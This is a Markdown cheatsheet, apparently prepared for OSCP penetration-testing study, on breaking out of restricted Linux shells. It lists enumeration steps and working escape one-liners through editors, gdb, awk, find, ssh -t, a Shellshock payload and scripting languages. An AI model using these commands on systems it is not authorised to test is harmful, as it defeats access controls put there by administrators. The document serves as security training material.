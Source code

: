 ```yaml
---
title: Escaping Jailed Shells
date: 2020-06-26 13:17:48
tags: [oscp, cheatsheet, linux]
---
```


# Escaping Jailed Shells

*You can execute built-in shell commands, as well as the ones in your PATH*

## Enumerate
* Get environment variables: `env` or `printenv` 
* Any programs as different user: `sudo -l`
* Check current PATH: `echo $PATH`
* List contents of PATH:
    * `ls path/to/PATH`
    * `echo path/to/PATH/*`
* List export variables: `export -p`

## Research
**Research each executable command, look for odd parameters**
Check out:
* man pages
* [GTFOBin](https://gtfobins.github.io/)
* Vulnerabilities in the command

## Attack Vectors
* If "/" is allowed, `/bin/bash`

### Writable PATH
* If PATH is writable, game on!
    * `export PATH=/usr/local/bin:/usr/bin:/bin:$PATH`

### Editors
* vi, vim, man, less, more
``` bash
:set shell=/bin/bash
:shell
# or
:!/bin/bash
```
* nano
``` bash
# Control - R, Control - X
^R^X
reset; sh 1>&0 2>&0
```
* ed
`!'/bin/sh'`

### Common Tools
``` bash
# cp
cp /bin/sh /current/PATH

# ftp
ftp
ftp>!/bin/sh

# gdb
gdb
(gdb)!/bin/sh

# awk
awk 'BEGIN {system("/bin/bash")}'

# find
find / -name bleh -exec /bin/bash \;

# expect
expect
spawn sh
```

### SSH
``` bash
# exec commands before remote shell are loaded
ssh test@victim -t "/bin/sh"

# start ssh without loading any profile
ssh test@victim -t "bash --noprofile"

# try shellshock
ssh test@victim -t "() { :; }; /bin/bash"
```

### Scripting Languages
``` bash
# python
python -c 'import os;os.system("/bin/bash")'

# perl
perl -e 'exec "/bin/sh";'

# ruby
ruby -e 'exec /bin/sh'
```

### Writing To a File
``` bash
echo "hello world!" | tee hello.sh
echo "append to the same file" | tee -a hello.sh
```

## Resources
[SANS](https://www.sans.org/blog/escaping-restricted-linux-shells/)
[Hacking Articles](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/)
[Escape From SHELLcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)